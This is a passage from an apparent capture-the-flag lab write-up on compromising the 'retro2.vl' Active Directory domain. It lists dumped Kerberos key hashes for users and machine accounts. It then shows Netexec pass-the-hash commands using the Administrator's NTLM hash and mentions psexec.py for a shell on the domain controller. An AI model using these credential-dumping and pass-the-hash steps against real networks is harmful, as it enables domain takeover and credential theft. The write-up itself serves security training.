 ```md
Sally.Davey:aes128-cts-hmac-sha1-96:1bd25ea0251be749c0b9ff10c0443728
Sally.Davey:des-cbc-md5:8940a2cde9fb45f1
retro2.vl\inventory:aes256-cts-hmac-sha1-96:251d2610ccb122fbefecbc0bad2a0f1ecffe39e48734d40fc31f9d6c32d9c3a6
retro2.vl\inventory:aes128-cts-hmac-sha1-96:6a4787b610d341b0d99758c8dd80a405
retro2.vl\inventory:des-cbc-md5:ad08041f6b0861a7
retro2.vl\ldapreader:aes256-cts-hmac-sha1-96:1f38605e159b9f10ba465530aa4ea2d9fd5429b3bf348fa8559b5acc647c0b32
retro2.vl\ldapreader:aes128-cts-hmac-sha1-96:000256e0522cc3cd2f52c6bfe1698368
retro2.vl\ldapreader:des-cbc-md5:8908762379fdfdae
BLN01$:aes256-cts-hmac-sha1-96:ffd22246332c76f0831bbae3acbcf7d9160e780f77ecbf6322ec536b8744a280
BLN01$:aes128-cts-hmac-sha1-96:00489881457ca7f5ba4dac2e1395fd44
BLN01$:des-cbc-md5:0886138c15a70157
ADMWS01$:aes256-cts-hmac-sha1-96:f5544c7751a1eff130453c781bca6efa5f50e39c41d86794a40999d3274e69dc
ADMWS01$:aes128-cts-hmac-sha1-96:aaa5f993a84a7684788ad0e867caa939
ADMWS01$:des-cbc-md5:d63268efd65ba20e
FS01$:aes256-cts-hmac-sha1-96:02282d48a002cbedd722bd5e25c65cf60e3c90f4b3f5202d6cfae73a36bbc3cf
FS01$:aes128-cts-hmac-sha1-96:b7e4bcfe86263314d53fd657ba99ed77
FS01$:des-cbc-md5:7aaec294018925b9
FS02$:aes256-cts-hmac-sha1-96:7768ec02acaf881fd3e6c0a7ca3431e0e1e53054711649ec05baf2cfa7c1458e
FS02$:aes128-cts-hmac-sha1-96:1fb1a56a82c449a59626b2cf11b6e5b2
FS02$:des-cbc-md5:bc548375b55b792f
[*] Cleaning up... 

```

### Shell as Administrator

After dumping all the hashes from the domain, we can use **psexec.py** to get a shell on the DC.

I tried to verify the Administrator hash using **Netexec** but it showed me this.

```bash
nxc rdp retro2.vl -u Administrator -H c06552bdb50ada21a7c74536c231b848
```

![image.png](/assets/images/RetroTwo_VL/image%2030.png)

Because our DC is **Datacenter 2008,** lets try with the SMB connection.

```bash
nxc smb retro2.vl -u Administrator -H c06552bdb50ada21a7c74536c231b848 --shares
```

![image.png](/assets/images/RetroTwo_VL/image%2031.png)
